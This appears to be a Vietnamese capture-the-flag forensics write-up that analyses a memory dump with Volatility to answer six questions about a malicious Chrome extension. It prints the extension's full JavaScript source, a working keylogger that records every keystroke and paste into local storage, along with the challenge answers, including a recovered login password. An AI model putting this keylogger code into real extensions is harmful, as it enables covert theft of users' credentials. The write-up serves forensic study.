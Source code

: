 # _Stealth Invasion_ _(FORSENSICS)_

![image](https://github.com/user-attachments/assets/cf31068e-2c57-45e6-abe8-f1d8833dbef8)

Bài cho file memdump.elf, lần đầu mình gặp file dump mà đuôi là elf nên liền check file cái đã

![image](images/19.png)

Vẫn đúng là file dump bth thôi, giờ dùng volatility để phân tích

>1. What is the PID of the Original (First) Google Chrome process:

Câu này dùng plugin windows.pslist

![image](images/20.png)

```
Answer: 4080
```

>2. What is the only Folder on the Desktop

Câu này dùng windows.filescan | grep desktop

![image](images/21.png)

```
Answer: malext
```

> 3. What is the Extention's ID (ex: hlkenndednhfkekhgcdicdfddnkalmdm)

Thấy trên `desktop` có được 1 số file `.js`, dump thử về xem sao (vì mình `grep` ID mãi mà nhập vô không đúng)

File `background.js`

```js
function addLog(s) {
    
    if (s.length != 1 && s !== "Enter" && !s.startsWith("PASTE"))  {
        s = `|${s}|`;
    } else if (s === "Enter" || s.startsWith("PASTE")) {
        s = s + "\r\n";
    }

    chrome.storage.local.get(["log"]).then((data) => {
        if (!data.log) {
            data.log = "";
        }

        data.log += s;

        chrome.storage.local.set({ 'log': data.log });
    });
}


chrome.runtime.onConnect.addListener((port) => {

    console.assert(port.name === "conn");
    console.log("v1.2.1");

    port.onMessage.addListener( ({ type, data }) => {
        if (type === 'key') {
            addLog(data);
        } else if (type == 'paste') {
            addLog('PASTE:' + data);
        }
    });
});

chrome.runtime.onMessage.addListener(
    function(request, sender, sendResponse) {
        if (request.check === "replace_html" && chrome.storage.local.get("replace_html")) {
            sendResponse({ url: chrome.storage.local.get('replace_html_url')});
        }
    }
);
```
File `content-script.js`

```js
var conn = chrome.runtime.connect({ name: "conn" });

chrome.runtime.sendMessage('update');

(async () => {
    const response = await chrome.runtime.sendMessage({ check: "replace_html" });
    console.log(response)
})();

chrome.runtime.sendMessage('replace_html', (response) => {
    conn.postMessage({ "type": "check", "data": "replace_html" });
});

document.addEventListener("keydown", (event) => {
    const key = event.key;
    conn.postMessage({ "type": "key", "data": key });
    return true;
});


document.addEventListener("paste", (event) => {
    let paste = event.clipboardData.getData("text/plain");
    conn.postMessage({ "type": "paste", "data": paste });
    return true;
});
```
Script trên là một phần của `Chrome Extensions`, nó như một `Keylogger` dùng để lưu lại lịch sử nhấn phím của người dùng. Hỏi chatgpt thì mình có được vị trí lưu

![image](images/22.png)


![image](images/23.png)

```
Answer: nnjofihdjilebhiiemfmdlpbdkbjcpae
```

>4. After examining the malicious extention's code, what is the log filename in which the datais stored

Ngay hình trên lấy được 1 tệp `.log`

```
Answer: 000003.log
```
>5. What is the URL the user navigated to

Mình dumpfiles `000003.log` về, tệp log này ghi lại lịch sử nhấn phím người dùng bởi `malicious extensions` ở trên

![image](images/24.png)

Có thể thấy người dùng truy cập vào drive.google.com rồi thực hiện login, nên từ đây có thể lấy được luôn đáp án cho câu 6

```
Answer: drive.google.com
```

>6. What is the password of selene@rangers.eldoria.com

![image](images/25.png)

```
Answer: clip-mummify-proofs
```




